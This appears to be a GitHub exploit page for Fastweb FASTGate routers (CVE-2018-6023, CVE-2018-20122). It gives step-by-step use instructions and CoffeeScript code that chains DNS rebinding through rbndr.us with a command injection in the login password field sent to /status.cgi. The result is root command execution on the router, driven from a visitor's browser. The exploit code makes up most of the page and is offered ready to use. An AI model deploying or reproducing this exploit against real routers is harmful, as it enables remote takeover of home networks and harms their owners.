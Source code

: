 ```yaml
---
title: FASTGate-RCE
description: Abusing DNS to exploit a command injection and obtain root
layout: default
lang: en
prefetch:
  - cve.mitre.org
  - www.exploit-db.com
  - www.fastweb.it
---
```


This is the combination of already available exploit and attack techniques.


Serve the exploit as the index of a local webserver.
Craft a tailored `payload.shell` to verify the execution.
Open a web browser and visit `7f000001.c0a801fe.rbndr.us`
(switch between localhost and 192.168.1.254).

```coffeescript

ajax = (url, params, hdrs) ->
  try
    req = new XMLHttpRequest

    qs = new URLSearchParams
    if params
      `for (const [key, val] of Object.entries(params)) {
        qs.append(key, val);
      }`
      url += "?#{qs.toString()}"

    req.open 'GET', url, 0
    req.setRequestHeader 'X-Requested-With', 'XMLHttpRequest'
    req.setRequestHeader 'Content-type', 'application/x-www-form-urlencoded'
    if hdrs
      `for (const [key, val] of Object.entries(hdrs)) {
        req.setRequestHeader(key, val);
      }`

    req.send()
    if req.status == 200
      req.responseText
    else
      null

  catch
    null

random_string = (len) ->
  ascii_letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
  digits = '0123456789'
  letters = ascii_letters + digits
  result = ''
  for i in [0...len]
    result += letters.charAt Math.random() * letters.length
  return result

exploit = (cmd, token) ->
  params = {
    '_': "#{Math.round (new Date).getTime() / 1000}pytester#{random_string 12}",
    'sessionKey': 'NULL',
    'cmd': '3',
    'nvget': 'login_confirm',
    'username': random_string(4),
    'password': "'; #{cmd} ; #"
  }
  hdrs = {
    'X-XSRF-TOKEN': token,
    'DNT': '1',
    'Cookie': document.cookie
  }
  ajax '/status.cgi', params, hdrs

isthisyou = ->
  ajax '/status.cgi', {
    '_': "#{Math.round Date.getTime / 1000}pytester#{random_string 12}"
  }

class @Payload
  set = ->
    this.code = ajax '/payload.shell' if !isthisyou()
    return
  hasnot = ->
    !this.code?
  get = ->
    this.code

mp = new Payload
mp.set() while mp.hasnot()
token = Math.round Math.random * 100000000000
document.cookie = "XSRF-TOKEN=#{token}"
while true
  if isthisyou()
    exploit mp.get(), token
    break

```


Nothing prevents remote exploitation, root is gained.
Shell shoveling and verification is voluntarily omitted.

## Links

- [http://www.fastweb.it/forum/servizi-rete-fissa-tematiche-tecniche/urgente-vulnerabilita-modem-fastgate-0-00-47-t22720.html](http://www.fastweb.it/forum/servizi-rete-fissa-tematiche-tecniche/urgente-vulnerabilita-modem-fastgate-0-00-47-t22720.html)
- [https://www.exploit-db.com/exploits/44606/](https://www.exploit-db.com/exploits/44606/)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6023](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6023)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20122](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20122)
- [https://github.com/taviso/rbndr](https://github.com/taviso/rbndr)
- [https://github.com/Depau/fastgate-python](https://github.com/Depau/fastgate-python)
- [https://github.com/Nimayer/fastgate-toolkit](https://github.com/Nimayer/fastgate-toolkit)